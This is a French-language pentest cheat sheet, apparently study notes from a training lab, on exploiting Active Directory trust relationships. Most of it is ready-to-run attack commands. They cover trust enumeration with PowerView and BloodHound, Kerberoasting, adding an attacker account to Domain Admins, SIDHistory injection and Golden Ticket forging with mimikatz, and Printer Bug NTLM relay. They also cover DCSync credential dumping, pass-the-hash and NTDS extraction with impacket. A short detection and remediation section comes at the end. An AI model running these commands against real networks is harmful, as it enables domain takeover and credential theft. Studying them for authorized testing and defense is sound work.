

Voici le flux d'attaque typique pour l'exploitation des relations de trust en environnement Active Directory.



## Énumération des Trusts de Domaine

### Utilisation des outils natifs Windows

#### PowerShell - Active Directory Module

```powershell
Import-Module ActiveDirectory
Get-ADTrust -Filter *
```

#### Commande netdom

```cmd
netdom query /domain:inlanefreight.local trust
```

```cmd
netdom query /domain:inlanefreight.local dc
```

```cmd
netdom query /domain:inlanefreight.local workstation
```

### Énumération avec PowerView

#### Lister les trusts de domaine

```powershell
Import-Module .\PowerView.ps1
Get-DomainTrust
```

#### Afficher les mappings des trusts

```powershell
Get-DomainTrustMapping
```

#### Vérifier les utilisateurs d’un domaine enfant

```powershell
Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName
```

### Énumération avec BloodHound

#### Collecte des données

```powershell
Import-Module SharpHound.ps1
Invoke-BloodHound -CollectionMethod Trusts -OutputDirectory C:\temp
```

> [!note]
> L'analyse des résultats dans **BloodHound** via la requête **Map Domain Trusts** permet de visualiser les chemins d'attaque entre les domaines. Voir également la note **BloodHound Analysis**.

## Détails sur le Forest Trust vs External Trust

Les relations de confiance diffèrent par leur portée et leur gestion :

| Caractéristique | External Trust | Forest Trust |
| :--- | :--- | :--- |
| **Portée** | Domaine à Domaine | Forêt à Forêt |
| **Transitivité** | Non-transitif | Transitif (par défaut) |
| **SID Filtering** | Activé par défaut | Activé par défaut |
| **Usage** | Interconnexion de domaines isolés | Fusion d'entreprises / Forêts multiples |

## Exploitation des Trusts

> [!warning] Prérequis
> Nécessite des privilèges d'administration ou des droits de lecture suffisants sur l'objet trust.

### Kerberoasting et ASREPRoasting

```powershell
Get-DomainUser -SPN | Get-DomainSPNTicket -OutputFormat Hashcat
```

```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname
```

### Abus des relations de trust

#### Exploiter un trust bidirectionnel

```powershell
Get-DomainGroupMember -Domain FREIGHTLOGISTICS.LOCAL -Identity "Domain Admins"
```

```powershell
Add-DomainGroupMember -Identity "Domain Admins" -Members attacker_user -Domain FREIGHTLOGISTICS.LOCAL
```

> [!danger] Attention
> L'ajout de membres dans des groupes privilégiés via trust est très bruyant dans les logs.

### Exploitation de Selective Authentication

#### Vérification de la configuration

```powershell
Get-ADTrust -Filter * | Select Name, SelectiveAuthentication
```

#### Bypass via SIDHistory

```powershell
Get-DomainUser | select Name, SIDHistory
```

```powershell
mimikatz "privilege::debug" "misc::addsid /domain:FREIGHTLOGISTICS.LOCAL /sid:S-1-5-21-xxx-xxx-xxx-512" "exit"
```

> [!danger] Condition critique
> Le **SID Filtering** doit être vérifié avant de tenter une injection de **SIDHistory**.

### Analyse des SID Filtering et SID History (théorie)

Le **SID Filtering** est un mécanisme de sécurité qui empêche un domaine de confiance d'injecter des SIDs arbitraires (comme celui des Domain Admins) dans le jeton d'authentification d'un utilisateur. Si le filtrage est désactivé, un utilisateur peut utiliser l'attribut **SIDHistory** pour élever ses privilèges dans le domaine cible.

### Exploitation des trusts via Golden Ticket / Silver Ticket

Si la clé **krbtgt** (Golden) ou la clé de service (Silver) du domaine source est compromise, il est possible de forger des tickets incluant des SIDs du domaine cible (si le SID Filtering est désactivé ou mal configuré).

```powershell
# Exemple de création d'un Golden Ticket avec SIDHistory pour le domaine cible
mimikatz "kerberos::golden /domain:source.local /sid:S-1-5-21-xxx /user:Admin /groups:512 /sids:S-1-5-21-cible-512 /krbtgt:hash /ticket:ticket.kirbi"
```

### Pivoting entre Forêts

#### Relais NTLM via Printer Bug

```powershell
Invoke-PrinterBug -ComputerName DC01.INLANEFREIGHT.LOCAL -AttackerIP 10.10.14.5
```

## Post-compromission

> [!danger] Danger
> L'utilisation de **Mimikatz** et **DCSync** déclenche quasi systématiquement les solutions EDR/AV.

### Dumping des credentials

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:FREIGHTLOGISTICS.LOCAL /user:Administrator"'
```

### Pass-the-Hash

```bash
# Exécution via impacket (Linux)
psexec.py FREIGHTLOGISTICS.LOCAL/Administrator@dc.freightlogistics.local -hashes :aad3b435b51404eeaad3b435b51404ee
```

### Exfiltration de la base NTDS

```bash
secretsdump.py FREIGHTLOGISTICS.LOCAL/Administrator@dc.freightlogistics.local -hashes :aad3b435b51404eeaad3b435b51404ee
```

## Techniques de détection

La surveillance des trusts repose sur l'analyse des journaux d'événements :

- **Event ID 4662** : Accès à un objet (surveillance des modifications d'attributs SIDHistory).
- **Event ID 4768** : Demande de TGT Kerberos (vérifier les anomalies de domaine).
- **Event ID 4769** : Demande de TGS (Kerberoasting).
- **Event ID 4776** : Validation des informations d'identification (authentification inter-domaine).

## Remédiation

- Restreindre les permissions des trusts et appliquer le **SID Filtering**.
- Désactiver les comptes non utilisés et surveiller les logs d’authentification.
- Activer **Selective Authentication** et restreindre les accès inutiles.
- Implémenter **LAPS** pour protéger les comptes administrateurs locaux.

> [!note] Sujets liés
> **Active Directory Enumeration**, **Kerberos Attacks**, **Lateral Movement Techniques**, **Credential Dumping**, **BloodHound Analysis**.